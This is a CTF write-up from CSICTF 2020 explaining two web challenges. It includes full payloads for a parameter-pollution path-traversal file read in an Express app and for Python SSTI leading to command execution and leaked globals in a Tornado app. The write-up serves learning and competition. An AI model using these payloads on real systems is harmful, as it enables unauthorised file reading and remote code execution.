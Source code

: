 After a long week of work I decided to participate in CSICTF2k20 with my team Fword since I didn't participate for a long time :( We were among the top 30 teams and we managed to almost solve all Web exploitaion tasks with my teammate @Hera. However I enjoyed solving File Library and The Usual Suspects tasks.

# File Library 497pts (40 solves) #

 ![TASK](https://imgur.com/IRJZKbM.png)
 
 We are given the source code of the task :
 
 ```js
const express = require('express');
const path = require('path');
const fs = require('fs');

const app = express();

const PORT = process.env.PORT || 3000;

app.listen(PORT, () => {
    console.log(`Listening on port ${PORT}`);
});

app.get('/getFile', (req, res) => {
    let { file } = req.query;
    console.log("file is: "+file);
    if (!file) {
        res.send(`file=${file}\nFilename not specified!`);
        return;
    }

    try {

        if (file.includes(' ') || file.includes('/')) {
            res.send(`file=${file}\nInvalid filename!`);
            return;
        }
    } catch (err) {
        res.send('An error occured!');
        return;
    }

    if (!allowedFileType(file)) {
        res.send(`File type not allowed`);
        return;
    }

    if (file.length > 5) {
        file = file.slice(0, 5);
    }

    const returnedFile = path.resolve(__dirname + '/' + file);
   console.log("returnedFile: "+returnedFile);
    fs.readFile(returnedFile, (err) => {
        if (err) {
            if (err.code != 'ENOENT') console.log(err);
            res.send('An error occured!');
            return;
        }

        res.sendFile(returnedFile);
    });
});

app.get('/*', (req, res) => {
    res.sendFile(__dirname + '/index.html');
});

function allowedFileType(file) {
    const format = file.slice(file.indexOf('.') + 1);
console.log("index +1 is "+file.indexOf('.') + 1);    
console.log("format inside allowedfile is: "+format);
    if (format == 'js' || format == 'ts' || format == 'c' || format == 'cpp') {
        return true;
    }

    return false;
}

 ```
 I added some logging statements to facilitate things, as you can see when we visit **/getfile** we can provide in a get parameter a filename that will be displayed for us but there are some restrictions,
 we can't use whitespaces or "/", there are only four extensions that are allowed (js|ts|c|cpp) .

![TASK](https://imgur.com/ClTfqlL.png)
 
 After reading carefully the source code, I was pretty sure that we will use http parameters pollution because there is no check concerning the type of get parameters so we can enter an array and try to exploit the misbehaviour that may occur.
 
 Let's imagine that we enter the following array :
 
 > ["../../","../../","../../","../../","../../proc/self/cwd/flag.txt",".","js"]
 
* **1st Check** : ``` if (file.includes(' ') || file.includes('/')) ``` 
 
 When includes is applied to an array it will check if there's a field that is equal to the passed parameter (" " and "/" in our case) which is false here so we can successfully pass this check
 
* **2nd Check** : ``` if (!allowedFileType(file)) ```

Let's take a look at the code of this function :

```js

function allowedFileType(file) {
const format = file.slice(file.indexOf('.') + 1);
    if (format == 'js' || format == 'ts' || format == 'c' || format == 'cpp') {
        return true;
    }

    return false;
}

```

It will slice our array beginning from the indexOf(".")+1 so in our case the result will be the last field of our array which is "js" and Bingo we will also pass this check :D

The following lines will remove the last two fields of our array :

```js
if (file.length > 5) {
  file = file.slice(0, 5);
}
```
so our array will become:

> ["../../","../../","../../","../../","../../proc/self/cwd/flag.txt"]

And finally after resolving the path returnedFile will contain /proc/self/cwd/flag.txt

```js
const returnedFile = path.resolve(__dirname + '/' + file);
```
**Note:** __dirname which is the current directory is ignored because of our "../../" fields, and **/proc/self/cwd** is equivalent to the current directory.

So finally our array will be resolved to the path we want, this is the final payload which is only a traduction to what we said before:

```
http://chall.csivit.com:30222/getfile?file[]=../../&file[]=../../&file[]=../../&file[]=../../&file[]=../../proc/self/cwd/flag.txt&file[]=.&file[]=js
```
![TASK](https://imgur.com/sdvZ1eL.png)

It was a really nice task so thanks to the author!

# The Usual Suspects 499pts (32 solves) #
 
![TASK](https://imgur.com/qorhTCy.png)
 
 Visiting the website, a well trained eye can directly notice the possibility of an SSTI attack in icecream parameter.
 
![TASK](https://imgur.com/zbwADG6.png) 
 
We thought that it was a typical SSTI task but unfortunately even after getting RCE using the usual jinja2 SSTI payloads we didn't find anything. The first payload we used:

> {{ ''.__class__.__mro__[1].__subclasses__()\[270\]('ls',shell=True,stdout=-1).communicate()}}

After this step we really didn't know what to do, the server used here was Tornado, which is an asynchronous python web server so I started reading its documentation and I noticed that the Main class always inherits from **tornado.web.RequestHandler**.
After some digging I got a nice idea , what if we list all the subclasses of Object ( The super class, it's the parent of all classes) Then we will list the subclasses of tornado.web.RequestHandler and finally we will check the globals of **get** function from MainHadnler class.

* Get the RequestHandler class:

> {{ ''.__class__.__mro__[1].__subclasses__()[363]}} 

* Get the MainHandler class which inherits from RequestHandler

> {{ ''.__class__.__mro__[1].__subclasses__()[363].__subclasses__()[-1]}} 

And finally we will see the __globals__ of get function ( **__globals__** is a reference to the dictionary that holds the function’s global variables ).
Final payload: 

```
{{ ''.__class__.__mro__[1].__subclasses__()[363].__subclasses__()[-1].get.__globals__}}
```
Bingo we got our flag :D I asked the admin and he told me that this is the unintended solution of the task.

![DISCORD](https://imgur.com/8pcqJ3T.png)

If you have any questions you can contact me on twitter @BelkahlaAhmed1 or contact our team twitter @FwordTeam ! I hope that you liked the writeup, and don't forget to participate in FwordCTF on 29th of August , a lot of fun challenges will be there.
